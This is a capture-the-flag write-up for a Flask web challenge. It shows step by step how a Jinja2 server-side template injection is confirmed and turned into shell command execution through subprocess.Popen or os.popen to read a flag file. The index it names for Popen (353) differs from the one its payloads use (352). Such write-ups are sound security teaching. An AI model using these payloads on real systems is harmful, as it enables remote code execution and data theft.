






# Frances Allen

## Description
> Frances Elizabeth Allen (August 4, 1932 – August 4, 2020) was an American computer scientist and pioneer in the field of optimizing compilers. Allen was the first woman to become an IBM Fellow, and in 2006 became the first woman to win the Turing Award. Her achievements include seminal work in compilers, program optimization, and parallelization. She worked for IBM from 1957 to 2002 and subsequently was a Fellow Emerita. - Wikipedia Entry

> Chal: Build your best attack against this webapp and inspire the first woman to win the Turing Award

### Challenge URL 
[Challenge Link](https://cyberheroines-web-srv5.chals.io/)

## Solution
* Using the `Wappalyzer` browser extension we can see that the page is using `flask`.
* Maybe SSTI?
* SSTI: A **server-side template injection** occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.
<br><br>

* We can confirm SSTI using `{{7*7}}`



* As `{{7*7}}` returns `49` we can confirm that the page is vulnerable to SSTI and is using the `Jinja2` template engine.
<br><br>



**Forming the payload**
* call the current class instance using `__class__`, call this on an empty string
    ```
    {{ ''.__class__ }}
    ```
* Use `__mro__` to climb up the inherited object tree:
    ```
    {{''.__class__.__mro__}}
    ```

* To access the second property in the tuple, use `1`:
    ```
    {{''.__class__.__mro__[1]}}
    ```

* to climb down the object tree, we use `__subclasses__`:
    ```
    {{''.__class__.__mro__[1].__subclasses__()}}
    ```

* Copy the output to a text editor and search for `subprocess` or `os` and its index.

* We see that `subprocess.Popen` is at index `353`
* As it is a list, we can access it using the index. Accessing `subprocess` module
    ```
    {{''.__class__.__mro__[1].__subclasses__()[352]}}
    ```
* Now that we have accessed the `subprocess` module, we can use it to execute commands and read files on the server.
* Listing files
    ```
    {{''.__class__.__mro__[1].__subclasses__()[352]('ls', shell=True, stdout=-1).communicate()}}
    ```
<br><br>

* Listing files in the root (`/`) directory, we can see a `flag.txt` file.
    ```
    {{''.__class__.__mro__[1].__subclasses__()[352]('ls /', shell=True, stdout=-1).communicate()}}
    ```
    
<br><br>
* Reading `flag.txt` contents
    ```
    {{''.__class__.__mro__[1].__subclasses__()[352]('cat /flag.txt', shell=True, stdout=-1).communicate()}}
    ```
    
    
### Final Payload
```
{{''.__class__.__mro__[1].__subclasses__()[352]('cat /flag.txt', shell=True, stdout=-1).communicate()}}
```
### Alternative Payload
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```

### FLAG
```
chctf{th3re_W4s_n3v3r_a_d0ubt_th4t_1t_w4s_1mp0rt4nt}
```


## References
* [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python)
* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)